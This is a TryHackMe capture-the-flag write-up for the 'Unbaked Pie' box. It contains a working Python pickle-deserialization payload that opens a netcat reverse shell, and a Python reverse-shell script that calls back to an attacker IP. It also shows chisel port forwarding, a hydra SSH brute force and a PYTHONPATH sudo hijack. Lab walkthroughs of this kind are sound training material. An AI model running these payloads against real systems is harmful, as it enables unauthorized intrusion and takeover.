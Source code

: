 +++ 
draft = false
date = 2021-01-12T16:48:02+05:30
title = "Unbaked Pie TryHackMe Writeup"
description = "This is a medium box which invloves the concept python pickling"
slug = ""
authors = ["d4rkn1gh7"]
tags = ["ctf","tryhackme","medium_box"]
categories = ["TryHackMe"]
externalLink = ""
series = ["TryHackMe"]
+++


#  __Unbaked_Pie Writeup__

![](/TryHackMe/Unbaked_Pie/BoxImage.png)

### __First Stage : Enumeration__



So let's start with a nmap scan.

```
# Nmap 7.91 scan initiated Fri Dec 11 11:56:00 2020 as: nmap -sC -T4 -vv -p- -oN nmapscan -Pn 10.10.44.92
Nmap scan report for 10.10.44.92
Host is up, received user-set (0.16s latency).
Scanned at 2020-12-11 11:56:08 IST for 362s
Not shown: 65534 filtered ports
Reason: 65534 no-responses
PORT     STATE SERVICE   REASON
5003/tcp open  filemaker syn-ack

Read data files from: /usr/bin/../share/nmap
# Nmap done at Fri Dec 11 12:02:10 2020 -- 1 IP address (1 host up) scanned in 371.24 seconds
```


Since only one port is open lets visit it.

![](/TryHackMe/Unbaked_Pie/website.png)



So after using burpsuite to intercept the requests , we can find an interesting cookie named __search_cookie__.

![](/TryHackMe/Unbaked_Pie/request.png)



If we decode the __search_cookie__ using cyberchef.

![](/TryHackMe/Unbaked_Pie/decode.png)

I searched for **test** hence the search_cookie has a value of test but why are the dots generated ? 

Maybe the query is being sereialized before sending ?

After some google search I found it is called pickling which is done using python to sereialze objects . 


I found this article : https://davidhamann.de/2020/04/05/exploiting-python-pickle/


### __Second Stage : Initial Access__
So the exploit code is:

```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.74.96 1234 >/tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

First we have to test whether this is working or not , hence we can edit the cmd to 

>ping -c 3   \<ip>

And listen for icmp request with

>sudo tcpdump -i tun0 icmp

So lets run the test.py 

![](/TryHackMe/Unbaked_Pie/test.png)

Lets put it in the search field and enter 

![](/TryHackMe/Unbaked_Pie/working.png)


Hence it is working we can run the real exploit code.


And we get the shell.

![](/TryHackMe/Unbaked_Pie/initial.png)


And I guess this is a container and we have to escape this in order to get user access .


Use these commands to upgrade shell.


```BASH
python3 -c"import pty;pty.spawn('/bin/bash')"
#then press CTRL-Z 
stty raw -echo ; fg
#press enter two times
export TERM=screen
```

After some searching and tweaking I saw __.bash_history__ file . 

![](/TryHackMe/Unbaked_Pie/bash_history.png)


We can see a user **ramsey** and internal ip **172.17.0.1**.

### __Third Stage : Escaping docker to user__

So we need to do  port forwarding .

I am using [chisel](https://github.com/jpillora/chisel) to port forward.

Start a server using :
>./chisel server -p 10000 --reverse

And in the victim machine use:
>./chisel client \<vpn_ip>:10000 R:4444:172.17.0.1:22

![](/TryHackMe/Unbaked_Pie/listener.png)

![](/TryHackMe/Unbaked_Pie/victim.png)



Since we dont know the password let brutefoce using hydra

> hydra -l ramsey -P /usr/share/wordlists/rockyou.txt localhost ssh -s 4444

![](/TryHackMe/Unbaked_Pie/hydra.png)


Next we login in using ssh .

![](/TryHackMe/Unbaked_Pie/user.png)


### __Fourth Stage : Pivoting from ramsey to oliver__


So if we try 
>sudo -l

![](/TryHackMe/Unbaked_Pie/ramsey.png)


We copy vuln.py to another file and delete it .

```BASH
cp vuln.py vuln.py.bak
rm vuln.py
```

We edit the vuln.py to this
```PYTHON
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.8.74.96",3333))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1) 
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

We get shell as oliver.

### __Fifth Stage : Oliver to root__ 
And we see what permissions we have.

![](/TryHackMe/Unbaked_Pie/oliver.png)

And the contents of **dockerScript.py**

```PYTHON
import docker

# oliver, make sure to restart docker if it crashes or anything happened.
# i havent setup swap memory for it
# it is still in development, please dont let it live yet!!!
client = docker.from_env()
client.containers.run("python-django:latest", "sleep infinity", detach=True)
```



We have permission to set env so we create a docker.py and add a reverse python shell to this file and execute this command

>sudo PYTHONPATH=/home/oliver /usr/bin/python /opt/dockerScript.py

![](/TryHackMe/Unbaked_Pie/exploit.png)


Now we get a shell.


![](/TryHackMe/Unbaked_Pie/root.png)






